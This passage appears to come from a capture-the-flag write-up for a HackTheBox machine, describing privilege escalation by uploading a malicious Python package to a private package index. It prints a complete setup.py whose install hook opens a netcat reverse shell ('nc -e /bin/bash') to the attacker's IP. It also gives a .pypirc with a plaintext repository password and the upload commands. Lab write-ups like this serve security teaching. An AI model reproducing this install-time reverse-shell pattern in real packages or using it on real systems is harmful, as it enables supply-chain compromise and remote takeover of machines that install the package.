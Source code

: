 {% embed url="https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/" %}

And this one on where to inject the malicious code:

{% embed url="https://github.com/mschwager/0wned" %}

First, we need to create a `setup.py` file:

```python
import os
import socket
import subprocess
from setuptools import setup
from setuptools.command.install import install

class Shell(install):
    def run(self):
        if (os.getuid() == 1000):
            os.system('nc -e /bin/bash 10.10.14.13 4444')

setup(name='revshell',
      version='0.0.1',
      description='shell',
      author='test',
      author_email='test',
      url='http://test.com',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': Shell})
```

We also need to create a `.pypirc` file:

```
[distutils]
index-servers = local
[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Then, we can download both of these files to the machine and run this command as `developer` (`su` usinng the FTP password):

```bash
HOME=$(pwd)
python3 setup.py sdist register -r local upload -r local
```

This would upload the package. Wait for a bit, and a reverse shell should occur as `low`.

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>
